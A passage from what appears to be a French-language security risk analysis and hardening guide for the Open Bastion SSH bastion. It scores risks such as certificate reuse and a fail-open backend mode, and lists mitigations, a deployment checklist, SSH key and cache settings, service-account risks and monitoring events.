- Le processus bastion lui-même, détourné, présentant le certificat à un backend non visé

**Facteurs atténuants :**

- **`source-address` critique** : le certificat n'est présentable que depuis l'IP du bastion émetteur — la réutilisation suppose donc déjà un contrôle du bastion (cf. R-S6), pas un attaquant réseau arbitraire
- **TTL ~120 s** : fenêtre très courte
- **Allowlist par backend** : un backend d'une autre zone de sécurité qui ne liste pas ce bastion dans son `allowed_bastions` refuse le certificat
- **Modèle de confiance** : à l'intérieur d'une même zone, le bastion est déjà l'autorité de vouching pour tous ses backends ; la distinction inter-zones se fait en donnant à chaque bastion un `client_id` (= `bastion_id`) distinct et en restreignant `allowed_bastions` par zone

**Piste non implémentée :** faire vérifier `target=<hôte>` par `ob-ssh-principals` contre le FQDN local (`%h`/`hostname -f`). Voir [99-risk-reduce.md](99-risk-reduce.md#r-s22-p1-i2---certificat-vouché-réutilisé-vers-un-autre-backend).

|                 |                                Score résiduel                                 |
| --------------- | :---------------------------------------------------------------------------: |
| **Probabilité** | 1 (suppose le contrôle du bastion ; `source-address` + TTL court + allowlist) |
| **Impact**      |            2 (réutilisation limitée aux backends de la même zone)             |

---

### R-S23 - Backend en mode hérité : `allowed_bastions` absent (fail-open)

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   3   |

**Description :** Si le fichier `/etc/open-bastion/allowed_bastions` est **absent**, `ob-ssh-principals` retombe dans un mode hérité non contraignant et émet le principal pour tout certificat signé par la CA dont le principal correspond au login — **y compris un certificat SSO direct** (key-id sans `bastion=`). Le vouching est alors contourné : accès direct au backend possible. Ce mode existe pour la rétro-compatibilité avec des backends antérieurs au vouching par certificat.

**Vecteurs d'attaque :**

- Backend déployé sans jamais exécuter `ob-backend-setup` (qui écrit toujours le fichier)
- Suppression manuelle du fichier `allowed_bastions`

**Facteurs atténuants (implémentés) :**

- `ob-backend-setup` écrit **toujours** `/etc/open-bastion/allowed_bastions` (0644 dans un répertoire 0711) lors de la configuration backend — sur un déploiement nominal, le fichier est donc toujours présent
- **Fail-closed sur ambiguïté** : si le fichier est présent mais illisible (ou le répertoire non traversable par `nobody`), `ob-ssh-principals` **refuse** (n'émet aucun principal) au lieu de retomber en mode ouvert — c'est le correctif du bug où un répertoire `/etc/open-bastion` en 0700 faisait silencieusement accepter un certificat SSO direct
- Le test `tests/test_backend_cert_acceptance.sh` vérifie les deux comportements (présent → enforce ; présent-mais-illisible → deny)

> ⚠️ Contrairement à un certificat vouché, un certificat SSO direct n'a **pas** d'option `source-address` : en mode hérité, il serait donc accepté depuis n'importe quelle IP, d'où l'impact I=3 (contournement complet du bastion sur ce backend).

**Piste non implémentée :** faire écrire au paquet (postinst) un `allowed_bastions` vide par défaut pour que l'« absent » n'arrive jamais, ou un mode strict où l'absence du fichier = refus. Voir [99-risk-reduce.md](99-risk-reduce.md#r-s23-p1-i3---backend-en-mode-hérité-fail-open).

|                 |                               Score résiduel                                |
| --------------- | :-------------------------------------------------------------------------: |
| **Probabilité** | 1 (`ob-backend-setup` écrit toujours le fichier ; fail-closed si illisible) |
| **Impact**      |         3 (contournement complet du vouching sur un backend hérité)         |

---

## 4. Matrice des Risques

### Avant remédiation

| Impact ↓ / Probabilité → | 1 - Très improbable | 2 - Peu probable                                          | 3 - Probable | 4 - Très probable |
| ------------------------ | ------------------- | --------------------------------------------------------- | ------------ | ----------------- |
| **4 - Critique**         | R-S4                | R-S6 R-S17                                                |              |                   |
| **3 - Important**        |                     | R-S3 R-S7 R-S11 R-S15 R-S13 R-S14 R-S18 R-S20 R-S21 R-S23 | R-S19        |                   |
| **2 - Limité**           | R-S16 R-S22         | R-S9 R-S10 R-S12                                          | R-S8         |                   |
| **1 - Négligeable**      |                     |                                                           |              |                   |

> **Note :** R-S1 (brute-force mot de passe) et R-S2 (vol de clé SSH simple) sont **éliminés** par la cible de sécurité maximale (`AuthorizedKeysFile none` + certificat CA requis). R-S5 démarre à P=1 grâce aux certificats CA obligatoires. R-S18 est ici à P=2 (et non P=3) car le wrapper setgid empêche l'accès aux recordings d'autres utilisateurs, ce qui réduit la probabilité d'un effacement « croisé » même avant remédiation complète ; l'effacement de ses propres recordings reste possible (cf. fiche R-S18).

### Après remédiation complète

| Impact ↓ / Probabilité → | 1 - Très improbable                                                   | 2 - Peu probable | 3 - Probable | 4 - Très probable |
| ------------------------ | --------------------------------------------------------------------- | ---------------- | ------------ | ----------------- |
| **4 - Critique**         | R-S4                                                                  |                  |              |                   |
| **3 - Important**        | R-S5 R-S23                                                            | R-S6             |              |                   |
| **2 - Limité**           | R-S7 R-S9 R-S10 R-S11 R-S12 R-S13 R-S14 R-S16 R-S17 R-S20 R-S21 R-S22 | R-S8             |              |                   |
| **1 - Négligeable**      | R-S15 R-S19                                                           | R-S3 R-S18       |              |                   |

**Profil de risque de la cible maximale :**

- R-S1 (brute-force mot de passe) : **ÉLIMINÉ** (pas de mot de passe SSH)
- R-S2 (vol clé SSH sans certificat) : **ÉLIMINÉ** (AuthorizedKeysFile none)
- R-S3 (certificat compromis) : **contrôlé par KRL** (mécanisme principal) + **binding fingerprint LLNG sur `/pam/authorize` et `/pam/verify`** qui bloque aussi bien l'ouverture SSH que l'escalade sudo dès que la révocation est publiée côté LLNG, même si la KRL locale n'est pas encore à jour
- R-S5 (contournement bastion) : **P=1** (certificat éphémère CA requis + `source-address` + `AuthorizedPrincipalsCommand`)
- R-S15 (KRL stale) : **I=1** grâce au binding fingerprint sur `/pam/authorize` : une révocation LLNG interdit l'ouverture d'une session SSH à chaque nouvelle connexion, indépendamment de la fraîcheur de la KRL
- R-S16 (escalade sudo) : **contrôlé par réauthentification SSO obligatoire**
- R-S17 (lockout) : **contrôlé par compte de service secours** + procédure console documentée
- R-S18 (effacement sessions) : **traçable mais reste effaçable techniquement** ; l'imputation tient grâce à syslog `auth.info` (start/end de session) et, si PR2 (#113) est activée, grâce au watch auditd `-w /var/lib/open-bastion/sessions/` qui trace l'événement d'effacement lui-même
- R-S19 (évasion containment via `setsid`/`nohup`), R-S20 (action différée via `at`/`cron`/`systemd-run`), R-S21 (action non capturée par le pty) : **nouvellement identifiés** et mitigés par PR1 (#112) et PR2 (#113) sous condition d'activation opt-in
- **Conditions d'activation :** ces nouveaux risques (R-S19, R-S20, R-S21) ne sont mitigés à leur niveau résiduel **que si** le hardening (PR1) ET la trace auditd (PR2) sont activés via `ob-bastion-setup --enable-hardening --enable-audit-trace`. En l'absence d'activation, ces risques restent en zone jaune (P=3, I=3 pour R-S19 ; P=2, I=3 pour R-S20 et R-S21). Voir [doc/hardening.md](../hardening.md) et [doc/audit.md](../audit.md) (documentations techniques en anglais) pour les détails opérationnels.
- R-S22 (certificat vouché réutilisé vers un autre backend) : **P=1, I=2** — `target=` non vérifié par `ob-ssh-principals`, mais `source-address` impose le contrôle du bastion et l'allowlist par backend cloisonne les zones (piste : vérifier `target=` contre le FQDN local)
- R-S23 (backend en mode hérité, `allowed_bastions` absent) : **P=1, I=3** — `ob-backend-setup` écrit toujours le fichier et `ob-ssh-principals` est fail-closed si illisible ; le risque résiduel ne concerne qu'un backend jamais configuré par le setup (piste : postinst écrivant un fichier vide par défaut)
- Seuls risques résiduels significatifs en zone jaune (PR1 et PR2 activées) : R-S4 (CA compromise) et R-S6 (bastion compromis)

---

## 5. Checklist de Déploiement

### CA SSH et certificats

- [ ] CA SSH générée sur machine sécurisée (air-gap ou HSM)
- [ ] Clé CA avec passphrase forte (100 rounds de dérivation)
- [ ] `TrustedUserCAKeys /etc/ssh/open-bastion_ca.pub` configuré sur bastion et backends
- [ ] `AuthorizedKeysFile none` sur bastion et backends
- [ ] `ExposeAuthInfo yes` dans sshd_config
- [ ] Certificats émis pour tous les utilisateurs (validité 1 an)
- [ ] `ob-ssh-cert` déployé sur les postes clients

### KRL (Key Revocation List)

- [ ] `RevokedKeys /etc/ssh/revoked_keys` dans sshd_config
- [ ] KRL initialisée et téléchargée depuis LLNG (`/ssh/revoked`)
- [ ] Cron de rafraîchissement KRL toutes les 30 min
- [ ] Monitoring KRL (alerte si > 1h sans mise à jour)
- [ ] Processus de révocation documenté et testé

### Bastion et vouching par certificat éphémère

- [ ] `AllowAgentForwarding no` sur le bastion
- [ ] Clients configurés avec `ob-ssh` (ProxyJump natif interdit car contourne le vouching)
- [ ] `AuthorizedPrincipalsCommand /usr/local/sbin/ob-ssh-principals %u %f %i` dans sshd_config des backends
- [ ] `/etc/open-bastion/allowed_bastions` configuré sur les backends (via `ob-backend-setup --allowed-bastions <client_ids>`)
- [ ] Plugin `ssh-ca` LLNG actif (`sshCaActivation=1`)
- [ ] Socket Unix `/run/open-bastion/cert.sock` servi par `ob-cert-daemon` systemd socket-activated sur le bastion
- [ ] Restriction réseau : backends accessibles uniquement depuis le bastion
- [ ] `pamAccessBastionGroups` configuré côté LLNG (groupes autorisés à voucher, défaut : bastion)
- [ ] Aucune directive `AcceptEnv LLNG_BASTION_JWT` dans sshd_config des backends (supprimée)

### PAM et sudo

- [ ] PAM LLNG configuré sur bastion ET backends (sshd)
- [ ] `/etc/pam.d/sudo` configuré avec `pam_openbastion.so`
- [ ] `server_group` différents (bastion vs backends)
- [ ] Cache offline activé avec rate limiting

### Politique de clés SSH

- [ ] `ssh_key_policy_enabled = true`
- [ ] `ssh_key_allowed_types = ed25519, sk-ed25519, sk-ecdsa`
- [ ] Groupes critiques (wheel, sudo, root) exclus de `managed_groups`

### Tests de validation

- [ ] Test : connexion SSH sans certificat → rejetée
- [ ] Test : connexion SSH avec certificat révoqué (KRL) → rejetée
- [ ] Test : connexion directe backend sans passer par bastion → rejetée
- [ ] Test : sudo sans token LLNG → rejeté
- [ ] Test : sudo avec token LLNG valide → accepté
- [ ] Test : révocation compte LLNG → nouvelle connexion SSH refusée
- [ ] Test : révocation certificat via KRL → accès SSH coupé (< 30 min)

---

## 6. Politique de Clés SSH

### Description

La politique de clés SSH (`ssh_key_policy_enabled`) est activée par défaut en cible de sécurité maximale. Elle s'applique aux clés utilisées pour signer les certificats CA.

### Configuration recommandée (haute sécurité)

```ini
# /etc/open-bastion/openbastion.conf
ssh_key_policy_enabled = true
ssh_key_allowed_types = ed25519, sk-ed25519, sk-ecdsa
```

### Types de clés

| Type         | Description             | Recommandation                  |
| ------------ | ----------------------- | ------------------------------- |
| `ed25519`    | Curve25519              | **Recommandé**                  |
| `sk-ed25519` | Ed25519 + FIDO2         | **Recommandé** (clé matérielle) |
| `sk-ecdsa`   | ECDSA + FIDO2           | **Recommandé** (clé matérielle) |
| `ecdsa`      | ECDSA P-256/P-384/P-521 | Acceptable                      |
| `rsa`        | RSA                     | Acceptable si ≥2048 bits        |
| `dsa`        | DSA                     | **Interdit**                    |

### Extraction des informations de certificat

Le module PAM extrait les informations via les variables d'environnement SSH (nécessite `ExposeAuthInfo yes`) :

- `SSH_USER_AUTH` : méthode d'authentification (contient "-cert-" pour certificat)
- `SSH_CERT_KEY_ID` : identifiant du certificat
- `SSH_CERT_SERIAL` : numéro de série
- `SSH_CERT_PRINCIPALS` : principals autorisés
- `SSH_CERT_CA_KEY_FP` : empreinte de la CA

```c
// src/pam_openbastion.c
const char *key_id = pam_getenv(pamh, "SSH_CERT_KEY_ID");
const char *serial = pam_getenv(pamh, "SSH_CERT_SERIAL");
const char *principals = pam_getenv(pamh, "SSH_CERT_PRINCIPALS");
const char *ca_fp = pam_getenv(pamh, "SSH_CERT_CA_KEY_FP");
```

---

## 7. Protection du Cache Offline

Le cache offline est une mesure de résilience en cas d'indisponibilité LLNG. Sa sécurité est renforcée par le rate limiting pour éviter les attaques locales (voir R-S12).

### Configuration complète

```ini
# /etc/open-bastion/openbastion.conf

# Cache d'autorisation
auth_cache = true
auth_cache_ttl = 3600           # 1h de cache normal
auth_cache_offline_ttl = 86400  # 24h si LLNG indisponible

# Protection contre brute-force du cache
cache_rate_limit_enabled = true
cache_rate_limit_max_attempts = 3       # Lockout après 3 tentatives
cache_rate_limit_lockout_sec = 60       # 1 minute initial
cache_rate_limit_max_lockout_sec = 3600 # 1 heure max
```

### Comportement du cache en cible maximale

En mode offline, le cache mémorise les autorisations mais **pas** les tokens sudo. Une panne LLNG signifie :

- Les connexions SSH des utilisateurs précédemment autorisés continuent (cache hit)
- Les escalades sudo sont **refusées** (token LLNG non vérifiable)
- Les nouveaux utilisateurs ne peuvent pas se connecter

Ce comportement est intentionnel : l'escalade de privilèges requiert toujours une vérification en ligne.

---

## 8. Comptes de Service

### Description

Les comptes de service (ansible, backup, monitoring, deploy, etc.) sont des comptes techniques qui s'authentifient uniquement par clé SSH, **sans passer par LLNG**. Ils sont définis localement dans un fichier de configuration sur chaque serveur.


```mermaid
flowchart LR
    subgraph OIDC["Utilisateur OIDC"]
        direction TB
        A1[Authentification:<br/>Certificat SSH signé CA]
        A2[Autorisation:<br/>/pam/authorize<br/>appel LLNG]
    end

    subgraph Service["Compte de service"]
        direction TB
        B1[Authentification:<br/>Clé SSH uniquement]
        B2[Autorisation:<br/>Fichier local<br/>pas d'appel LLNG]
    end

    OIDC ~~~ Service

    style OIDC fill:#e1f5fe
    style Service fill:#fff3e0
```

### Configuration

```ini
# /etc/open-bastion/service-accounts.conf
# DOIT être : propriétaire root, permissions 0600, pas de symlink

[ansible]
key_fingerprint = SHA256:abc123def456...
sudo_allowed = true
sudo_nopasswd = true
gecos = Ansible Automation
shell = /bin/bash
home = /var/lib/ansible

[backup]
key_fingerprint = SHA256:xyz789...
sudo_allowed = false
gecos = Backup Service
shell = /bin/sh
home = /var/lib/backup
```

### Flux d'authentification


```mermaid
sequenceDiagram
    participant Client as Client SSH<br/>(clé service)
    participant Srv as Serveur SSH
    participant PAM as PAM Open Bastion

    Client->>Srv: 1. ssh ansible@server
    Note over Srv: 2. Authentification SSH<br/>(clé publique/privée)
    Note over Srv: 3. ExposeAuthInfo expose<br/>fingerprint dans SSH_USER_AUTH
    Srv->>PAM: 4. pam_sm_authenticate
    Note over PAM: 5. Extrait fingerprint de<br/>SSH_USER_AUTH
    Note over PAM: 6. Détecte compte de service<br/>(présent dans config)
    Note over PAM: 7. Valide fingerprint clé SSH<br/>contre config
    PAM-->>Srv: 8. PAM_SUCCESS
    Note over Srv: 9. PAS d'appel à LLNG<br/>(autorisation locale)
    Srv-->>Client: 10. Session établie
```

### Sécurité

| Aspect                     | Mesure                                              |
| -------------------------- | --------------------------------------------------- |
| **Fichier config**         | Propriétaire root, mode 0600, pas de symlink        |
| **Validation fingerprint** | Fingerprint SSH validé contre valeur configurée     |
| **ExposeAuthInfo**         | Requis dans sshd_config pour validation fingerprint |
| **Shells autorisés**       | Liste blanche configurable                          |
| **Home autorisés**         | Préfixes autorisés uniquement                       |
| **Noms de compte**         | Validation stricte (lowercase, max 32 chars)        |

### Risques spécifiques

#### R-SA1 - Vol de clé de compte de service

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   2   |
| **Impact**      |   4   |

**Description :** Si la clé privée d'un compte de service est compromise, l'attaquant obtient un accès permanent tant que la clé publique n'est pas retirée du fichier de configuration.

**Différence avec les utilisateurs OIDC :** Contrairement aux utilisateurs avec certificat CA, la révocation côté LLNG ne bloque **pas** les comptes de service car ils n'utilisent pas `/pam/authorize`. La révocation nécessite une modification manuelle du fichier `service-accounts.conf`.

**Remédiation :**

1. Rotation régulière des clés de service (6-12 mois)
2. Stockage sécurisé des clés (Ansible Vault, HashiCorp Vault)
3. Audit des accès avec fingerprint dans les logs
4. Alerte si même clé utilisée depuis IP inattendue

|                 |   Score résiduel    |
| --------------- | :-----------------: |
| **Probabilité** |          2          |
| **Impact**      | 3 (avec monitoring) |

#### R-SA2 - Compromission du fichier de configuration

|                 | Score |
| --------------- | :---: |
| **Probabilité** |   1   |
| **Impact**      |   4   |

**Description :** Si un attaquant peut modifier `/etc/open-bastion/service-accounts.conf`, il peut ajouter son propre compte de service avec sudo.

**Remédiation embarquée :**

- Vérification propriétaire = root (uid 0)
- Vérification permissions 0600
- Refus des symlinks (O_NOFOLLOW)

**Remédiation complémentaire :**

- File integrity monitoring (AIDE, Tripwire)
- Audit des modifications sur `/etc/open-bastion/`

|                 | Score résiduel |
| --------------- | :------------: |
| **Probabilité** |       1        |
| **Impact**      |       4        |

### Recommandations

1. **Principe du moindre privilège** : Ne configurer que les comptes de service strictement nécessaires sur chaque serveur
2. **sudo_nopasswd** : Utiliser avec précaution, uniquement pour les comptes d'automatisation qui ne peuvent pas fournir de mot de passe
3. **Rotation des clés** : Planifier une rotation périodique (6-12 mois)
4. **Monitoring** : Logger les connexions des comptes de service avec leur fingerprint
5. **Ségrégation** : Utiliser des clés différentes par environnement (prod/staging/dev)

---

## 9. Recommandations

### Mesures critiques (non négociables)

| Mesure                                                           | Justification                                               |
| ---------------------------------------------------------------- | ----------------------------------------------------------- |
| `AuthorizedKeysFile none`                                        | Élimine R-S1 et R-S2 ; certificat CA obligatoire            |
| KRL avec cron 30 min                                             | Contrôle compensatoire pour les certificats 1 an            |
| Cert éphémère + `source-address` + `AuthorizedPrincipalsCommand` | Réduit R-S5 à P=1 même si restrictions réseau insuffisantes |
| PAM sudo avec token LLNG                                         | Bloque toute escalade sans réauthentification SSO           |
| Restriction réseau backends                                      | Défense en profondeur contre le contournement bastion       |

### Mesures recommandées

| Mesure                                                  | Justification                                                          |
| ------------------------------------------------------- | ---------------------------------------------------------------------- |
| CA sur HSM ou machine air-gap                           | Réduit l'impact catastrophique de R-S4                                 |
| LLNG en haute disponibilité                             | Réduit R-S7 à P=1                                                      |
| Monitoring KRL + alertes                                | Détection rapide de R-S15                                              |
| `AllowAgentForwarding no`                               | Réduit l'impact de R-S6 en cas de compromission bastion                |
| `ssh_key_allowed_types = ed25519, sk-ed25519, sk-ecdsa` | Élimine les clés faibles (R-S11)                                       |
| `ob-ssh` (pas ProxyJump natif)                          | Vouching par certificat éphémère + clé privée ne quitte pas le bastion |
| `ClientAliveInterval 300`                               | Limite l'exposition des sessions actives après révocation              |
| 2FA sur LLNG pour les tokens sudo                       | Renforce la protection contre R-S16                                    |

### Points de surveillance (SIEM / monitoring)

| Événement                                                                                                | Criticité | Action recommandée       |
| -------------------------------------------------------------------------------------------------------- | --------- | ------------------------ |
| Connexion SSH sans certificat rejetée                                                                    | Medium    | Log + alerte récurrente  |
| Connexion avec certificat révoqué (KRL)                                                                  | High      | Alerte immédiate         |
| Connexion backend sans certificat éphémère bastion (rejet source-address ou AuthorizedPrincipalsCommand) | High      | Alerte immédiate         |
| KRL non mise à jour depuis > 1h                                                                          | High      | Alerte immédiate         |
| Sudo refusé (token absent/invalide)                                                                      | Medium    | Log                      |
| Même certificat depuis 2+ IPs différentes                                                                | High      | Alerte + investigation   |
| Modification `service-accounts.conf`                                                                     | Critical  | Alerte immédiate + audit |
